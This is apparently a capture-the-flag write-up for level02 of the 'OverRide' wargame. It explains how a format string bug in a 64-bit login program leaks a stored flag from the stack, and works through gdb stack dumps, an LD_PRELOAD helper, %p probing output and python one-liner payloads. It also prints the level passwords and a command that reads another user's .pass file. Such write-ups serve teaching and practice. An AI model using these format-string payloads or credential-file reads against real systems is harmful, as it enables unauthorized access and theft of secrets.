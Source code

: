 # Level02 - 64 bits - Format string attack

## Local script usage

Requirements:

- `gdb-peda`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level02/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level02 | `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` |
| level03 | `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We notice the vulnerable printf that does not use format string and print directly the variable `username`

For example:

```shell
~/level02
--[ Username: AAAA
--[ Password: BBBB
  AAAA does not have access!

~/level02
--[ Username: %s # <= Format string vulnerability
--[ Password: BBBB
*****************************************
BBBB does not have access!
```

Unfortunately it difficult to debug the stack because of `fopen`, `fread` and `fclose` that try to open, read and close the level03's flag.

We can use [LD_PRELOAD trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/) to mock those functions.

(This step is not really necessary, but it is better to illustrate)

We wrote a file for this job: [debugHelper.c](./debugHelper.c)

We have to send the file with `scp` and then compile it.

```shell
# on local machine
scp -P $OR_PORT -r debugHelper.c level02@$OR_HOST:/tmp/debugHelper.c

# on remote machine
gcc -shared -fPIC -ldl debugHelper.c -o debugHelper.so
export LD_PRELOAD=/tmp/debugHelper.so
```

```shell
gdb-peda$ b*main+654 # before vulnerable printf
gdb-peda$ run < <(echo "BBBBBB\nCCCCCC")
telescope 25

[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe390 --> 0x7fffffffe598 --> 0x7fffffffe7f2 ("/home/users/level02/level02")
0008| 0x7fffffffe398 --> 0x1f7ff9f10
0016| 0x7fffffffe3a0 --> 0x434343434343 ('CCCCCC')
0024| 0x7fffffffe3a8 --> 0x0
0032| 0x7fffffffe3b0 --> 0x0
0040| 0x7fffffffe3b8 --> 0x0
0048| 0x7fffffffe3c0 --> 0x0
0056| 0x7fffffffe3c8 --> 0x0
0064| 0x7fffffffe3d0 --> 0x0
0072| 0x7fffffffe3d8 --> 0x0
0080| 0x7fffffffe3e0 --> 0x0
0088| 0x7fffffffe3e8 --> 0x0
0096| 0x7fffffffe3f0 --> 0x0
0104| 0x7fffffffe3f8 --> 0x0
0112| 0x7fffffffe400 --> 0x100000000
0120| 0x7fffffffe408 --> 0x0
0128| 0x7fffffffe410 ('A' <repeats 40 times>) # <=== fake Flag
0136| 0x7fffffffe418 ('A' <repeats 32 times>)
0144| 0x7fffffffe420 ('A' <repeats 24 times>)
0152| 0x7fffffffe428 ('A' <repeats 16 times>)
0160| 0x7fffffffe430 ("AAAAAAAA")
0168| 0x7fffffffe438 --> 0x0
0176| 0x7fffffffe440 --> 0x424242424242 ('BBBBBB')
0184| 0x7fffffffe448 --> 0x0
0192| 0x7fffffffe450 --> 0x0
[------------------------------------------------------------------------------]
```

We can see the fake flag at the address `0x7fffffffe410`.

As we don't know exactly the position of the the flag, we will use a format string attack to find the flag. We will test several position using a loop.

Lets run [our script](./script.sh)

```shell
./script.sh
  %00$p: %0$p                 | xxd -r | rev  =>
  %01$p: 0x7fffffffe970       | xxd -r | rev  =>
  %02$p: (nil)                | xxd -r | rev  =>
  %03$p: 0x70                 | xxd -r | rev  =>  p
  %04$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %05$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %06$p: 0x7fffffffeb68       | xxd -r | rev  =>
  %07$p: 0x1f7ff9a08          | xxd -r | rev  =>
  %08$p: 0x64726f7773736170   | xxd -r | rev  =>  password
  %19$p: (nil)                | xxd -r | rev  =>
  (...)
  %20$p: 0x100000000          | xxd -r | rev  =>
  %21$p: (nil)                | xxd -r | rev  =>
  %22$p: 0x756e505234376848   | xxd -r | rev  =>  Hh74RPnu
  %23$p: 0x45414a3561733951   | xxd -r | rev  =>  Q9sa5JAE
  %24$p: 0x377a7143574e6758   | xxd -r | rev  =>  XgNWCqz7
  %25$p: 0x354a35686e475873   | xxd -r | rev  =>  sXGnh5J5
  %26$p: 0x48336750664b394d   | xxd -r | rev  =>  M9KfPg3H

  It should be:  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  (...)
```

We have something like 40 chars in a row. It should be the flag.

Lets try

```shell
~/level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username:
  --[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  *****************************************
  Greetings, !
$ whoami
  level03
$ cat /home/users/level03/.pass
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

## Another solution with printf

We have printf exploit possibility as our buffer is used as the first argument of printf, we can bring our own modifiers. We can use that to print the stack starting from the printf function since we can't debug with gdb because of fopen issues etc...

Let's check that :

```shell
./level02 
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: %p %p %p %p %p %p %p %p %p %p
  --[ Password: AAAA
  *****************************************
  0x7fffffffe500 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x41414141 (nil) (nil) does not have access!
```

Ok, with the %p modifier we can see that our buffer "AAAA" starts at the 8th argument.
We also know that our password buffer starts at `[rbp-0x110]` in the stack and the flag starts at `[rbp-0xa0]` => difference of 0x70 = 112 bytes.  
Since `%p` is printing a maximum of 8 bytes long arguments, the flag argument position will be after 14 arguments (112 / 8 = 14), which means the 22th (our password is 8th, so 14 + 8 = 22)

```shell
(python -c 'print("%22$p "+"%23$p "+"%24$p "+"%25$p "+"%26$p "+"%27$p "+"%28$p")' ; python -c 'print("AAAA")')  | ./level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: --[ Password: *****************************************
  0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x3225207024323225 does not have access!
```

Now that we have the flag values (terminated by a `(nil)` value), we can put it in the `username` buffer and let the error part print it for us ("`username` does not have access!")

```shell
level02@OverRide:~$ (python -c 'print("\x48\x68\x37\x34\x52\x50\x6e\x75"+"\x51\x39\x73\x61\x35\x4a\x41\x45"+"\x58\x67\x4e\x57\x43\x71\x7a\x37"+"\x73\x58\x47\x6e\x68\x35\x4a\x35"+"\x4d\x39\x4b\x66\x50\x67\x33\x48")' ; python -c 'print("AAAA")')  | ./level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: --[ Password: *****************************************
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H does not have access!
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [LD_PRELOAD Trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/)
- [LD_PRELOAD Trick (with call to real function)](https://catonmat.net/simple-ld-preload-tutorial-part-two)

- [Man exit](https://linux.die.net/man/3/exit)
- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man fclose](https://linux.die.net/man/3/fclose)
- [Man fopen](https://linux.die.net/man/3/fopen)
- [Man fread](https://linux.die.net/man/3/fread)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncmp](https://linux.die.net/man/3/strncmp)
- [Man strcspn](https://linux.die.net/man/3/strcspn)
- [Man system](https://linux.die.net/man/3/system)
